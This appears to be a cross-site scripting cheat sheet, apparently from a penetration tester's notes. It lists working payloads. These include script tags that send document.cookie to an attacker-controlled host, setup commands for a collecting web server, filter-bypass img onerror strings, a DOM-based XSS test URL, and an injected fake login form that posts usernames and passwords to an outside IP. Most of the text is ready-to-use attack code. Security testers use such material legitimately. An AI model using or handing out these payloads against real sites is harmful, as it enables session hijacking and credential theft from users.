 Steal Cookies
-----------------------
```
# Use ruby SSL server for SSL connections
# Start Python Web Server
python -m SimpleHTTPServer 80
# Start PHP Web Server
php -S xxx.xxx.xxx.xxx:<port>

<script>document.location="http://192.168.0.60/?c="+document.cookie;</script>
<script>new Image().src="http://192.168.0.60/index.php?c="+document.cookie;</script>
```
Mouseover test
-----------------------
```javascript
<a href="" onmouseover="javascript:alert('HackerOne MkSecurity Dom XSS');">Click for Detail</a>
```

Use to test if script "<script>alert(123)</script>" tags are being blocked
-----------------------
```javascript
ackerokm7x<img src=a onerror=alert(1)>y09fr
ackerokm7x<img%20src=a%20onerror=alert(1)>y09fr
```

Testing for DOM based XSS
-----------------------
```
Modern browsers are not vulnerable? Must use Internet Explorer for proof of vuln.
Open Internet Explorer
Press F12
Select the "Emulation" tab
Select "Document Mode" "7" (Try other versions if one does not work)
Reload the page

The "#" symbol in this case means pass everything after it to the DOM
http://xxx.xxx.xxx.xxx/xss/example9.php#<script>alert(123)</script>
```


Testing for DOM based XSS
-----------------------
```javascript
<h3>Please login to proceed</h3> <form action=http://10.5.21.41>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```
